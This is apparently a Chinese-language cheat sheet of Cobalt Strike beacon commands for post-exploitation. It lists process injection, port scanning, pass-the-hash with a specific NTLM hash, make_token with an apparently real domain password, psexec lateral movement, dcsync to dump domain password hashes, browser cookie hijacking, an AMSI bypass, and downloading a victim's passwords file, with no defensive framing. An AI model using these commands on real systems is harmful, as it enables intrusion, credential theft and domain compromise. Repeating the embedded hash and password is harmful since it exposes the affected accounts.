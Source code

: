 https://mp.weixin.qq.com/s/F1H4ReV71gK7JeoYxV3n5g
https://github.com/k8gege/Aggressor/releases/tag/cs
[Cobalt Strike 最实用的 24 条命令（建议收藏）](https://mp.weixin.qq.com/s/8EbrH9LRei_22Z14UDZUmQ)

## 环境配置

插件加载信息保存在 `%userprofile%\.aggressor.prop`

## 工具栏

地球图标 | Web Share

## 常用命令

```sh
beacon> run <cmd>
beacon> cp 复制文件

## file
run <cmd>
portscan 192.168.0.1-192.168.255.255 1-1024,3389,5000-6000 arp # [max]
net 在目标上执行net命令
desktop pid [x86|x64] low|high # VNC: vnc dll注入到指定进程中运行 注：需要确保cs服务端有vnc dll
ssh [host:port] [user][pass]
drives: List current system drives.
getprivs
inject [pid] <x86|x64> [listener]
exit # 结束Beacon进程
## 横向移动
beacon> rportfwd [listen_port][forward_host][forward_port]

beacon> pth [DOMAIN\user] [NTLM hash]

beacon> pth WANFANG2008\xxzx 1c4a7b9bcbbaeeec8ce8d7588e7a5154
beacon> jump psexec WANFANG2008 smb

beacon> make_token WANFANG2008\xxzx XKsi_920902Su@
beacon> ls \\192.168.61.129\C$
beacon> jump psexec IISSERVER smb
### 启动 http 代理
beacon> browserpivot <pid> # pid必须为iexplore.exe 下的pid # Browser Pivot模块用于劫持目标的IE浏览器，在目标主机上开设代理。本地浏览器通过代理劫持目标的Cookie实现免登录（在访问目标的IE浏览器所访问的网址时，使用的就是目标IE浏览器的Cookie）。
### other
reg 注册表查询命令(仅能查询)
reg query [x86|x64] [root\path]
reg queryv [x86|x64] [root\path] [subkey]
jump [exploit] [target] [listener] # jump 在远程主机上执行payload生成一个会话 , 此命令通过横向渗透在目标上执行payload生成会话(psexec winrm)
remote-exec [method] [target] [command] # 和上面那个在远程主机上执行payload生成会话的没啥区别只不过变成了执行命令
rev2self 恢复Beacon原始令牌

### domain
dcsync			从域控中提取密码哈希
dcsync [DOMAIN.FQDN] 提取所有帐户的密码哈希
dcsync [DOMAIN.FQDN] [DOMAIN\user] 特定用户的

### other
powershell: Execute commands by spawning "powershell.exe"
powershell-import: Import a local powershell module in the current beacon process.
powerpick: Execute powershell commands without spawning "powershell.exe", using only .net libraries and assemblies. (Bypasses AMSI and CLM)
download C:\Users\victim\Documents\passwords.csv
upload C:\Users\S1ckB0y1337\NotMalware\youvebeenhacked.txt
```
